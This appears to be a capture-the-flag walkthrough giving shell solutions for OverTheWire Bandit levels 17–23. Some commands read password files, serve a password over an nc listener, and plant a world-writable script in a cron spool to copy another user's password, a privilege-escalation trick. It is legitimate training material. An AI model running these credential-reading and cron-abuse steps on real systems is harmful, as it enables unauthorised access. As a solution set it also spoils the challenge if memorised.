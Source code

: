 ## level 17

```sh
diff passwords.old passwords.new | grep ">"
```

## level 18

```sh
scp -P 2220 bandit18@bandit.labs.overthewire.org:/home/bandit18/readme ./
cat readme
```

## level 19

```sh
./bandit20-do cat /etc/bandit_pass/bandit2
```

## level 20

```sh
nc -l 33333 < /etc/bandit_pass/bandit20 &
./suconnect 33333
```

## level 21

```sh
cat /etc/cron.d/cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```

## level 22

```sh
cat /etc/cron.d/cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
cat /tmp/`echo I am user bandit23 | md5sum | cut -d ' ' -f 1`
```

## level 23

```sh
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/bcbcbc
chmod 777 /tmp/bcbcbc
touch /tmp/bcbcbc/getpass.sh
chmod 777 /tmp/bcbcbc/getpass.sh
cat /tmp/bcbcbc/getpass.sh
    #!/bin/sh
    cat /etc/bandit_pass/bandit24 > /tmp/bcbcbc/pass
cp /tmp/bcbcbc/getpass.sh /var/spool/bandit24
cat /tmp/bcbcbc/pass
```
